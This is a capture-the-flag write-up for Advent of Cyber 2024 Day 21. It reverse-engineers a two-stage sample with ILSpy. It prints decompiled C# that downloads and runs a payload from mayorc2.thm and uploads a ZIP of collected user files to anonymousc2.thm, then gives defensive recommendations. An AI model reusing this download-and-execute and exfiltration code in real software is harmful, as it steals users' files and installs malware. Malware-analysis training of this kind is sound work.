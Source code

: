 # Advent of Cyber 2024 - Day 21

## Challenge Overview
Understand the fundamentals of reverse engineering through disassembly and decompilation. Analyze a multi-stage binary to uncover its functionality and identify its behavior, such as downloading files and executing malicious payloads. Utilize tools like PEStudio and ILSpy to reverse-engineer binaries, analyze indicators, and evaluate the logic of compiled executables.

---

## Steps

### Static Analysis with ILSpy

We began by decompiling `WarevilleApp.exe` using **ILSpy**, revealing its high-level source code.

#### 1. Download Function
The `DownloadAndExecuteFile` function downloads a binary from the C2 server `mayorc2.thm` and executes it:
```csharp
private void DownloadAndExecuteFile()
{
    string address = "http://mayorc2.thm:8080/dw/explorer.exe";
    string text = Path.Combine(
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile), "Downloads"), "explorer.exe");
    using (WebClient webClient = new WebClient())
    {
        try
        {
            if (File.Exists(text)) { File.Delete(text); }
            webClient.DownloadFile(address, text);
            Process.Start(text);
        }
        catch (Exception ex)
        {
            MessageBox.Show("An error occurred while downloading or executing the file: " + ex.Message, "Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
        }
    }
}
```
![Download File Function](images/FunctionDownloadsExecutes.png)

#### 2. Upload Function (explorer.exe)
The `UploadFileToServer` function of explorer.exe uploads a file to a remote server at `anonymousc2.thm`:
```csharp
private static void UploadFileToServer(string zipFilePath)
{
    string address = "http://anonymousc2.thm/upload";
    using (WebClient webClient = new WebClient())
    {
        try
        {
            webClient.UploadFile(address, zipFilePath);
            Log("File uploaded successfully.");
        }
        catch (WebException)
        {
        }
    }
}
```
![Upload File Function](images/Stage2C2Server.png)
---

### Behavioral Analysis

1. **Downloaded Binary**
   - The file `explorer.exe` is downloaded to the `Downloads` folder from `mayor2.thm`.

2. **Stage 2 Binary Behavior**
   - The second binary compresses sensitive user data into a ZIP file named `CollectedFiles.zip`.
   ![Zip File Creation](images/Stage2BinaryCreatedZip.png)

3. **File Upload**
   - The ZIP file is uploaded to the C2 server `anonymousc2.thm`.

---

## Key Findings

- **Multi-Stage Behavior**:
  - The binary downloads a secondary payload (`explorer.exe`), which then exfiltrates data.
- **C2 Communication**:
  - The primary and secondary binaries communicate with `mayorc2.thm` and `anonymousc2.thm`.

---

## Recommendations

1. **Network Segmentation**:
   - Block unauthorized access to external IPs/domains from internal networks.

2. **Binary Verification**:
   - Validate binaries' integrity using SHA-256 hashes before execution.

3. **Endpoint Detection**:
   - Deploy endpoint monitoring solutions to detect suspicious behavior, like file uploads.

---

## Conclusion

This task highlights the dangers of multi-stage binaries, emphasizing the need for robust detection and mitigation techniques. Tools like **ILSpy** allow analysts to reverse engineer binaries, gaining valuable insights into their functionality and malicious intent.